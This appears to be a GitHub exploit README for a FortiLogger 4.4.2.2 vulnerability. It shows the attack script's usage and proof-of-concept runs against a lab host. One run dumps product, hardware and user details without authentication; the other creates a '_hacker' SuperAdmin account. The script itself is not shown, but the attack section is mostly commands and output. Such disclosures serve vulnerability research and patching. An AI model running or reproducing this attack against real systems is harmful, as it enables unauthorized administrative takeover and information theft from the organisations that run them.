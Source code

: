 
## FortiLogger | Log and Report System - Remote SuperAdmin Account Creation Vulnerability / Information Disclosure

* Date: 30-01-2021
* Exploit Author: Berkan Er <b3rsec@protonmail.com>
* Vendor Homepage: https://www.fortilogger.com/
* Version: 4.4.2.2
* Tested on: Windows 10 Enterprise x64
* A remote attacker can be create an user with SuperAdmin profile 

#### Usage:
```
python3 fortilogger_vuln.py                         

FortiLogger | Log and Report System - v4.4.2.2
Remote SuperAdmin Account Creation Vulnerability / Information Disclosure

Berkan Er <b3rsec@protonmail.com>
@erberkan

Usage:
python3 fortilogger_vuln.py < IP > < PORT > < CREATE USER {TRUE / FALSE} >

IP:	IP Address of FortiLogger host
PORT:	Port number of FortiLogger host
TRUE:	Create User
FALSE:	Show Product Infos

Example: python3 fortilogger_vuln.py 192.168.1.10 5000 TRUE

```

#### POC: 
```
python3 fortilogger_vuln.py 192.168.16.128 5000 FALSE

FortiLogger | Log and Report System - v4.4.2.2
Remote SuperAdmin Account Creation Vulnerability / Information Disclosure

Berkan Er <b3rsec@protonmail.com>
@erberkan

[*] Status code:  200
[*] Product Version:  4.4.2.2

*** Product Infos=
{
  "_t": "ProductOptions",
  "_id": {
    "$oid": "60157d427f711605414a2de4"
  },
  "AddDate": {
    "$date": 1612021058799
  },
  "UpdateDate": {
    "$date": 1612024343170
  },
  "IsActive": false,
  "UserId": "0",
  "IpAddress": "192.168.16.128",
  "Version": "4.4.2.2",
  "ProductId": "FLOG1327013824951216",
  "ProcessorId": "1F8BFBFF000306D4",
  "DiskId": "VMWare NVME_0000",
  "UUId": "6FD54D56-5A22-FB3A-367A-DB738CFB01B4",
  "BiosId": "VMware-56 4d d5 6f 22 5a 3a fb-36 7a db 73 8c fb 01 b4",
  "SendError": true,
  "DatabasePath": "C:\\fortilogger",
  "ProgramPath": "C:\\Program Files\\RZK\\Fortilogger",
  "DefaultLang": "en",
  "LatestVersion": "4.4.2.2",
  "SendData": true,
  "MaxDevicePerProduct": 5,
  "ListenerPort": 514,
  "VdomMode": false,
  "UIPort": 5000
}

*** Profiles=
[
  "superadmin_profile",
  "admin_profile",
  "hotspot_profile"
]

*** Users=
[
  "admin",
  "hotspot",
  "berkan"
]
[+] It seems vulnerable !
KTHNXBYE!
```
```
python3 fortilogger_vuln.py 192.168.16.128 5000 TRUE

FortiLogger | Log and Report System - v4.4.2.2
Remote SuperAdmin Account Creation Vulnerability / Information Disclosure

Berkan Er <b3rsec@protonmail.com>
@erberkan

[*] Status code:  200
[*] Product Version:  4.4.2.2
[+] It seems vulnerable !
[*] STAUTS CODE: 200
[!] User has been created ! 
Username: _hacker
Password: _hacker

*** Users=
[
  "admin",
  "hotspot",
  "berkan",
  "_hacker"
]
KTHNXBYE!
```